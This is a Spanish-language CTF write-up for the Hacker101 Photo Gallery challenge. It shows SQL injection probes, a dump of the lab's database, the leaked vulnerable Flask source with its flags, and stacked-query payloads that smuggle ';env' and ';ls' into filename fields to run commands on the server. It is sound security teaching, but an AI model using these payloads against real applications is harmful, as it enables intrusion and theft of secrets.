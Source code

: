 # HackerOne Hacker101 CTF

## Photo Gallery
### Web - Moderate (6/flag)

![](img/level05.png)

### Hints

* Flag0
	* Consider how you might build this system yourself. What would the query for fetch look like?
	* Take a few minutes to consider the state of the union
	* This application runs on the uwsgi-nginx-flask-docker image
* Flag1
	* I never trust a kitten I can't see
	* Or a query whose results I can't see, for that matter
* Flag2
	* That method of finding the size of an album seems suspicious
	* Stacked queries rarely work. But when they do, make absolutely sure that you're committed
	* Be aware of your environment


Las imágenes se cargan con la url `/fetch?id=3`


### Inyección SQL

En un primer momento vemos que cuando un ID no existe, se devuelve un error 404, además, la imagen 3 devuelve un error 500.

Si probamos algunas inyecciones SQL, vemos como funcionan.

`/fetch?id=4-2` -> Devuelve imagen 2

`/fetch?id=4 or 1` -> Devuelve imagen 1

Buscamos una inyección booleana con el operador lógico `and`.

`/fetch?id=3 and 1` -> True, Devuelve error 500

`/fetch?id=3 and 0` -> False, Devuelve error 404

Aunque esta inyección se podría explotar con SQLmap, hay varios inconvenientes. Si inyectamos en los ID 1 o 2, al tener que descargar unos 100KB por peticion, se ralentiza considerablemente la extracción de datos. Por otro lado, si inyectamos en el ID 3, SQLmap toma la inyección como un falso positivo, al obtener un error 500 tanto en la inyección True, como en los errores de sintaxis.

En su lugar, utilizamos un script de python para realizar el dump de la base de datos `level5`

```
['level5']
[[['level5', 'albums'], ['level5', 'photos']]]
[['level5', 'albums', ['id', 'title']], ['level5', 'photos', ['id', 'title', 'filename', 'parent']]]
[+] Get DB:level5 TABLE:albums COLUMNS:['id', 'title']
[+] MySQL DUMP - albums
1
18
317C4B697474656E73
['1|Kittens']
[+] Get DB:level5 TABLE:photos COLUMNS:['id', 'title', 'filename', 'parent']
[+] MySQL DUMP - photos
3
78
317C55747465726C792061646F7261626C657C66696C65732F61646F7261626C652E6A70677C31
62
327C50757272666563747C66696C65732F70757272666563742E6A70677C31
156
337C496E76697369626C657C376664343862646266363763306331376462616536643665383334303662326435646461643334663064626664346238303564613133636337343764616533637C31
['1|Utterly adorable|files/adorable.jpg|1', '2|Purrfect|files/purrfect.jpg|1', '3|Invisible|7fd48bdbf67c0c17dbae6d6e83406b2d5ddad34f0dbfd4b805da13cc747dae3c|1']
```

El `filename` de la tercera fila es el flag1, aunque en un principio al no tener el formato exacto ^FLAG^...$FLAG$ podamos pensar de que se trata de un hash o un valor codificado en hexadecimal.


Una vez conocemos la estructura de la base de datos, podemos intentar utilizar la inyección SQL para modificar un `path` y conseguir leer otros archivos. Para ello usaremos `UNION SELECT`.

Lo primero es descubrir la cantidad de elementos que se obtienen en la consulta para hacer la unión con la misma cantidad de elementos, utilizamos `ORDER BY` para determinarlo.

`/fetch?id=4 order by 1` -> True, Error 404

`/fetch?id=4 order by 5` -> False, Error 500

`/fetch?id=4 order by 2` -> False, Error 500

Por lo que la cantidad de elementos es 1, la consulta sería algo similar a esto `SELECT filename FROM photos WHERE id=$id`.

Probamos a obtener la imagen del primer gato `/fetch?id=4 union select 'files/adorable.jpg'`.

Comprobamos que funciona, el siguiente paso es descargar el código fuente de la aplicación que se encuentra en `main.py`.

```python

from flask import Flask, abort, redirect, request, Response
import base64, json, MySQLdb, os, re, subprocess

app = Flask(__name__)

home = '''
<!doctype html>
<html>
	<head>
		<title>Magical Image Gallery</title>
	</head>
	<body>
		<h1>Magical Image Gallery</h1>
$ALBUMS$
	</body>
</html>
'''

viewAlbum = '''
<!doctype html>
<html>
	<head>
		<title>$TITLE$ -- Magical Image Gallery</title>
	</head>
	<body>
		<h1>$TITLE$</h1>
$GALLERY$
	</body>
</html>
'''

def getDb():
	return MySQLdb.connect(host="localhost", user="root", password="", db="level5")

def sanitize(data):
	return data.replace('&', '&amp;').replace('<', '&lt;').replace('>', '&gt;').replace('"', '&quot;')

@app.route('/')
def index():
	cur = getDb().cursor()
	cur.execute('SELECT id, title FROM albums')
	albums = list(cur.fetchall())

	rep = ''
	for id, title in albums:
		rep += '<h2>%s</h2>\n' % sanitize(title)
		rep += '<div>'
		cur.execute('SELECT id, title, filename FROM photos WHERE parent=%s LIMIT 3', (id, ))
		fns = []
		for pid, ptitle, pfn in cur.fetchall():
			rep += '<div><img src="fetch?id=%i" width="266" height="150"><br>%s</div>' % (pid, sanitize(ptitle))
			fns.append(pfn)
		rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
		rep += '</div>\n'

	return home.replace('$ALBUMS$', rep)

@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)

	# It's dangerous to go alone, take this:
	# ^FLAG^a4482735c6a1bd68b3a6edec1c0ca3c5333187f5eb82f95501f57ff141b5f39d$FLAG$

	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=80)
```

En este código se encuentra la flag0.

### RCE

Utilizamos stacked queries para insertar datos en las tablas `albums` y `photos` para conseugir una ejecución de comandos.
Como solo se muestra la ultima linea del comando ejecutado, las eliminamos con el comando `tr`.

La flag se encuentra en una variable de entorno como se nos indica en las pistas.

```sql
/fetch?id=4;INSERT INTO `albums` (`id`, `title`) VALUES (2, 'Patatas');commit;
/fetch?id=4;INSERT INTO `photos` (`id`, `title`, `filename`, `parent`) VALUES (NULL, 'Patatas',';ls -la|tr "\n" " "', 2);commit;
/fetch?id=4;DELETE FROM `photos` WHERE parent=2;commit;
/fetch?id=4;INSERT INTO `photos` (`id`, `title`, `filename`, `parent`) VALUES (NULL, 'Patatas',';env|tr "\n" " "', 2);commit;
```
![](img/level05-env.png)
